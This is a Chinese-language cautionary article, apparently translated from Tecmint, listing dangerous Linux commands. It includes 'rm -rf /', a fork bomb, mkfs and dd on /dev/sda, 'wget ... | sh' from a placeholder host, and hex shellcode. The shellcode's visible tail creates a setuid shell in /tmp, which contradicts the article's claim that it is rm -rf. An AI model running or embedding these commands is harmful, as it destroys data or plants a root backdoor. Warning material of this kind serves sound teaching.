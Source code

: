 - ## chown 也会出错
> 建好的SSH互信的两台服务器,scp 文件到另一台服务器的时候要输入密码!!
> 检查后发现有人把/root 下的目录和文件的权限改成了其它用户的
> 所以我就运行了下面的命令:

        cd /root
        chown -R root:root ./*
> 然后发现 .ssh 等带点的目录的权限没有改变. 
> 重点来了,所以我又执行了一条命令:
        
        chown -R root:root ./.*
> 然后…… 自己想想吧！！！ 
> 反正我后来用了三个小时才恢复过来!!!!!!! 想想都是泪

- ##1. rm -rf 命令　

        rm -rf命令是删除文件夹及其内容最快的方式之一。仅仅一丁点的敲错或无知都可能导致不可恢复的系统崩坏。下列是一些rm 命令的选项。

        rm　命令在Linux下通常用来删除文件。
        rm -r 命令递归的删除文件夹，甚至是空的文件夹。（译注：个人认为此处应该是说错了，从常识看，应该是“甚至是非空的文件夹”）
        rm -f 命令能不经过询问直接删除‘只读文件’。（译注：Linux下删除文件并不在乎该文件是否是只读的，而只是在意其父目录是否有写权限。所以，-f这个参数只是表示不必一个个删除确认，而是一律悄悄删除。另外，原始的rm命令其实也是没有删除提示的，只是一般的发行版都会将rm通过别名的方式增加-i参数来要求删除确认，而-f则抑制了这个提示。）
        rm -rf / : 强制删除根目录下所有东东。（就是说删除完毕后，什么也没有了。。。）
        rm -rf *:　强制删除当前目录的所有文件。
        rm -rf . : 强制删除当前文件夹及其子文件夹。
>从现在起，当你要执行rm -rf命令时请留心一点。我们可以在“.bashrc”文件对‘rm‘命令创建rm -i的别名，来预防用 ‘rm‘命令删除文件时的事故，它会要求你确认每一个删除请求。（译注：大多数发行版已经这样做了，如果还没有，请这样做，并在使用-f参数前一定考虑好你在做什么！译者本人有着血泪的教训啊。）

- ##2. :(){:|:&};: 命令
>这就是个fork 炸弹的实例。具体操作是通过定义一个名为 ‘:‘的函数，它会调用自己两次，一次在前台另一次运行在后台。它会反复的执行下去直到系统崩溃。

        :(){:|:&};:
>哦？你确认你要试试么？千万别在公司正式的服务器上实验啊~~

- ##3. 命令　> /dev/sda
>上列命令会将某个‘命令‘的输出写到块设备/dev/sda中。该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。

- ##4. mv 文件夹 /dev/null
>这个命令会移动某个‘文件夹‘到/dev/null。在Linux中 /dev/null 或 null 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。（译注：这就是黑洞啊。当然，要说明的是，通过将文件夹移动到黑洞，并不能阻止数据恢复软件的救赎，所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成——我知道你肯定有些东西想删除得干干净净的。）

        # mv /home/user/* /dev/null
>上列命令会将User目录所有内容移动到/dev/null，这意味着所有东西都被‘卷入’黑洞　(null)之中。

- ##5. wget http://malicious_source -O- | sh
>上列命令会从一个（也许是）恶意源下载一个脚本并执行。Ｗget命令会下载这个脚本，而sh会（无条件的）执行下载下来的脚本。

>注意: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。（译注：所以，你真的知道你在做什么吗？当遇到这种需要是，我的做法是，先wget下来，然后我去读一读其中到底写了些什么，然后考虑是否执行。）

- ##6. mkfs.ext3 /dev/sda
>上列命令会格式化块设备‘sda’，你无疑知道在执行上列命令后你的块设备(硬盘驱动器)会被格式化，崭新的!没有任何数据，直接让你的系统达到不可恢复的阶段。（译注：通常不会直接使用/dev/sda这样的设备，除非是作为raw设备使用，一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁灭性的，上面的数据都会被蒸发了。）

- ##7. > file
>上列命令常用来清空文件内容（译注：通常也用于记录命令输出。不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。另外，我想你可能真正想用的是“>>”，即累加新的输出到文件，而不是刷新那个文件。）。如果用上列执行时输入错误或无知的输入类似 “> xt.conf”　的命令会覆盖配置文件或其他任何的系统配置文件。

- ##8. ^foo^bar
>这个命令在我们十个鲜为人知的 Linux 命令 - Part 3中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用foobar命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。（译注：事实上，这种小技巧是译者认为的，少数史前时代遗留下来的无用而有害的“黑客”技巧。）

- ##9. dd if=/dev/random of=/dev/sda
>上列命令会向块设备sda写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入混乱和不可恢复的状态。（译注：记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。）

- ##10. 隐藏命令　
>下面的命令其实就是上面第一个命令 (rm -rf)。这里的代码是隐藏在十六进制里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你的根分区。

>这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。

        char esp[] __attribute__ ((section(“.text”))) /* e.s.p
        release */
        = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
        “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
        “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
        “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
        “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
        “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
        “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
        “cp -p /bin/sh /tmp/.beyond; chmod 4755
        /tmp/.beyond;”;
>注意: 不要在你的或你的同学或学校的电脑里的Linux终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章作者和Tecmint概不负责。（译注：译者和转载网站也不负责~！）

